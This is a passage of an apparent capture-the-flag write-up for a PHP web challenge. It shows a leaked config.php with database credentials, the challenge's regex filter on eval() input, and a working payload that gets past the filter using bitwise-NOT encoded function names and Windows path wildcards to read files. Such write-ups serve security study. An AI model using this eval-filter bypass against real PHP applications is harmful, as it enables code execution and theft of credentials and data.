 Now you have the `config.php`: 

```php
<?php
    // ***********************************
    // THIS IS THE CONFIG OF THE MYSQL DB
    // ***********************************
    $host = "localhost";
    $user = "admin";
    $pass = "";
    $port = 8787;
    // hint:flag-is-in-the-database XDDDDDDD
    // ====================================
```

<br>

**Method 0x2**

Many teams use the `eval()` of the first branch to read `config.php`. 

In this `eval()` branch, your input `$_` will put into `eval("return $_;")`.

Here is a strict regex rule to check our input.

```php
if( preg_match('/[\x00-!\'0-9"`&$.,|^[{_zdxfegavpos\x7F]+/i',$_) || @strlen(count_chars(strtolower($_), 0x3)) > 0xd || @strlen($_) > 19 )
    exit($secret);
```

But we can use `~` operator to bypass many restrictions.

Example: `~urldecode("%8D%9A%9E%9B%99%96%93%9A")` is equal to `readfile`.

<br>

In Windows, there are some **MAGIC** wildcard features for path normalization.

Example: 

`>` will match one arbitrary character. (like `?` on Linux) 

`<` will match zero or more arbitrary characters. (like `*` on Linux)

(more detail: [My-CTF-CheatSheet](https://github.com/w181496/Web-CTF-Cheatsheet#%E8%B7%AF%E5%BE%91%E6%AD%A3%E8%A6%8F%E5%8C%96))

Combine the `~` trick and `<` trick together:

`/?op=-9&Σ>―(%23°ω°%23)♡→=(~%8D%9A%9E%9B%99%96%93%9A)(~%9C%90%C3%C3)`

(It is same as `readfile("co<<")`)

<br>

### Step 3

The content of `config.php` tells us that the flag is in the MySQL database.
Our next target is to query MySQL Server and get the result.
